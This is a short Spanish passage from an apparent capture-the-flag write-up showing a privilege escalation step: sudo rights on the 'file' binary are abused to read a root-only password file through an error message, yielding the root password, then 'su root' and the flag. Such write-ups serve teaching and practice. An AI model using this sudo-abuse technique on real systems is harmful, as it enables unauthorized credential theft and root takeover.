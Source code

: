 Podemos ejecutar como `root` el binario `file`, pero si nos vamos a `/opt/` veremos un archivo llamado `password.txt` que solo puede leer `root` por lo que podremos hacer lo siguiente.

```shell
sudo file -f /opt/password.txt
```

Info:

```
root:rooteable2: cannot open `root:rooteable2' (No such file or directory)
```

Veremos que la contraseña de `root` es `rooteable2` y si la probamos, veremos que es verdad.

```shell
su root
```

Ponemos la contraseña obtenida y ya seremos `root`, por lo que leeremos la flag.

> true\_root.txt

```
efb6984b9b0eb57451aca3f93c8ce6b7
```
